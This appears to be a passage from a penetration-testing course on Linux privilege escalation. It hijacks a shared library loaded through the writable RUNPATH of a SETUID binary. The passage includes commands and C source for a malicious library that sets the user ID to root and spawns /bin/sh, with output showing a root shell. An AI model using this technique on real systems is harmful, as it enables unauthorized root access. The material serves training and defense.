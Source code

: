 Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

> ls -la payroll

    -rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll


We can use <ldd> (*https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html*) to print the shared object required by a binary or shared object. `Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

> ldd payroll

    linux-vdso.so.1 =>  (0x00007ffcb3133000)
    libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)


We see a non-standard library named `libshared.so` listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. This can be inspected using the <readelf> (*https://man7.org/linux/man-pages/man1/readelf.1.html*) utility.

> readelf -d payroll  | grep PATH

    0x000000000000001d (RUNPATH)            Library runpath: [/development]

The configuration allows the loading of libraries from the `/development` folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in `/development`, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).

> ls -la /development/

    total 8
    drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
    drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../


Before compiling a library, we need to find the function name called by the binary.

> cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so

> ldd payroll

    linux-vdso.so.1 (0x00007ffd22bbc000)
    libshared.so => /development/libshared.so (0x00007f0c13112000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)

>  ./payroll 

    ./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.so`, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.

# Code : c

    #include<stdio.h>
    #include<stdlib.h>

    void dbquery() {
        printf("Malicious library loaded\n");
        setuid(0);
        system("/bin/sh -p");
    } 

The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh when called. Compile it using GCC.

> gcc src.c -fPIC -shared -o /development/libshared.so

Executing the binary again should display the banner and pops a root shell.

> ./payroll 

    ***************Inlane Freight Employee Database***************

    Malicious library loaded
    # id
    uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)